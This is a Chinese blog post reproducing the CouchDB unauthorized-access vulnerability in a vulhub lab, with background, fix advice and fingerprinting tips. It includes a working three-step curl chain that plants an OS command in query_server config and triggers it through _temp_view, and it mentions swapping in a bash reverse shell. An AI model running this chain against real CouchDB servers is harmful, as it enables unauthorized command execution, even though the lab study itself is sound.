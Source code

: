 ```yaml
---
layout:     post
title:      CouchDB 未授权访问漏洞
subtitle:   未授权访问漏洞
date:       2019-10-10
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
---
```

# 漏洞介绍
* 漏洞名称：CouchDB 未授权访问漏洞
* CVE编号：SSV-91597
* 发布时间：2016-05-19
* 漏洞说明：CouchDB 是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB会默认会在5984端口开放Restful的API接口，用于数据库的管理功能。CouchDB允许用户指定一个二进制程序或者脚本，与CouchDB进行数据交互和处理，通过一个未授权访问的CouchDB，通过修改其query_server配置，来执行系统命令。
* 影响范围：全版本
* 修复建议：1、指定CouchDB绑定的IP （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 文件中找到 “bind_address = 0.0.0.0” ，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。注：修改后只有本机才能访问CouchDB。 2、设置访问密码 （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 中找到“[admins]”字段配置密码。
# 0x00 环境配置
靶场环境使用vulhub来搭建，从下图可以看到CouchDB在5984端口上运行了：

![图片](../../../../img/couchdb_unauth_1.png)

# 0x01 漏洞复现
如下图所示，直接访问，可以看到欢迎信息和版本号：

![图片](../../../../img/couchdb_unauth_2.png)

访问`http://ip:5984/_config`，可以通过该页面中的关键字来判断该漏洞是否存在：

![图片](../../../../img/couchdb_unauth_3.png)

关键字如下：

```
httpd_design_handlers
external_manager
replicator_manager
```
访问`http://ip:5984/_utils/`是CouchDB Web界面：

![图片](../../../../img/couchdb_unauth_4.png)

## 执行系统命令
作为攻击者就一定要把漏洞充分利用，可以通过CouchDB 未授权访问漏洞来执行任意系统命令，具体代码如下，分为三步：

1. 新增query_server配置，写入要执行的命令；
   `curl -X PUT 'http://username:password@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'`
2. 新建一个临时库和临时表，插入一条记录；
   `curl -X PUT 'http://username:password@your-ip:5984/vultest'`
   `curl -X PUT 'http://username:password@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'`
3. 调用query_server处理数据
   `curl -X POST 'http://username:password@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'`

我执行的命令是Ping dnslog平台，DNSlog平台也成功收到了请求，想要反弹shell也是可以的，修改第一步中的命令为bash 反弹shell就可以：

![图片](../../../../img/couchdb_unauth_5.png)

![图片](../../../../img/couchdb_unauth_6.png)

# 0x02 指纹
CouchDB 未授权访问漏洞的发现需要提前做一次端口扫描，下图就是Nmap对CouchDB应用的识别：

![图片](../../../../img/couchdb_unauth_7.png)

# 0x03 总结
一开始打算使用Vulhub给的exp.py的脚本，搞了半天没反弹成功，因此还是使用curl命令来执行任意命令，curl还是很给力的，给自己布置下作业，学一学curl的命令。

